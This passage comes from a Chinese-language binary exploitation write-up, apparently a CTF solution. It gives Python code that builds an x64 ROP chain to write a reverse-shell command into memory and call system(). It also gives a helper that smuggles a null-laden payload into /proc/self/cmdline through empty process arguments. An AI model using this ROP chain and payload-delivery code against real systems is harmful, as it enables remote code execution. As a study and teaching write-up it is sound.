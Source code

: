 ```python
	sub_rdi_cl = p64(0x462DD6)
	payload_len = len(payload)
	i = 0
	while i < payload_len:
		ret += pop_rbp_ret
		ret += payload[i:i+4]
		ret += "A"*4
		ret += pop_rcx_ret
		ret += p64(i + buf_addr)
		ret += xchg_ret
		i += 4
	for j in xrange(0, len(spaces_idx)):
		ret += pop_rcx_ret
		ret += p64(1)
		ret += pop_rdi_ret
		ret += p64(spaces_idx[j] + buf_addr)
		ret += sub_rdi_cl

	ret += pop_rdi_ret
	ret += p64(buf_addr) # rdi是参数所存放的寄存器

	ret += p64(0x406D80) # system
	ret += p64(0)
	return ret
```

其中，buf\_addr是目标内存地址，这里会给一个\.data的地址，而old\_payload是所需要写入的字符串，即前面所说的一句话反弹shell指令。

说下所遇到的坑，就是我在调的时候太久没调x64程序了，然后就犯蠢了，忘了第一个参数是rdi，把第一个参数放在了栈中。然后rdi又刚好指向最后一个空格，所以搞得我一直没发现。。。

### 利用Linux参数传递性质讲payload装入cmdline文件

接着我们发现，我们需要让我们的缓冲区填充\+payload放入cmdline文件，这样fscanf才能读到他。那么又有一个问题了，参数之间只能有一个'\\x00'，但是我们需要很多个连续的0，怎么办？这个时候我琢磨到一个技巧，就是给一个空参数，就会产生连续的0。比方说./xxx "" aaa，在./xxx和aaa之间，就有两个\\0。

具体实现代码如下：

```python
def payload_to_args(payload):
	length = len(payload)
	ret = []
	ret.append("")
	idx = 0
	for i in xrange(0, length):
		if payload[i] != '\x00':
			ret[idx] += payload[i]
		else:
			ret.append("")
			idx += 1
	return ret
```

这个函数就是把payload转换成array，使得如果用这个array作为参数创建进程的话，能使得cmdline文件中的内容是原来的payload。

